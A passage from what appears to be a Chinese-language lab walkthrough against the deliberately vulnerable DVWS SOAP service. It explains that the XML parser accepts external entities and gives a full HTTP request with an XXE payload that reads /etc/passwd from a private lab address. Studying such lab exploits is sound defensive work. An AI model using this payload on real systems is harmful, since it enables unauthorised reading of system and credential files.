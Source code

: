 ```plain
         <username xsi:type="xsd:string">geroet</username>
      </urn:Username>
   </soapenv:Body>
</soapenv:Envelope>
```

[![](assets/1706957905-abdfc55b59dda222e11d103c38ffb91d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240202093832-c6492bca-c16b-1.png)  
SOAP 服务器用来解析该请求的 XML 库允许使用外部实体，因此我们可以利用它从 SOAP 服务中读取任意文件

```plain
POST /dvwsuserservice/ HTTP/1.1
Host: 192.168.204.160
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4164.0 Safari/537.36 autochrome/red
Connection: close
SOAPAction: Username
Content-Type: text/xml;charset=UTF-8
Content-Length: 579

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [ <!ENTITY exploit SYSTEM "file:///etc/passwd"> ]>
<soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:urn="urn:examples:usernameservice">
   <soapenv:Header/>
   <soapenv:Body>
      <urn:Username soapenv:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
         <username xsi:type="xsd:string">&exploit;</username>
      </urn:Username>
   </soapenv:Body>
</soapenv:Envelope>
```

[![](assets/1706957905-7691d5cbcf7306ad5869e45e71060931.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240202093903-d859fbc8-c16b-1.png)
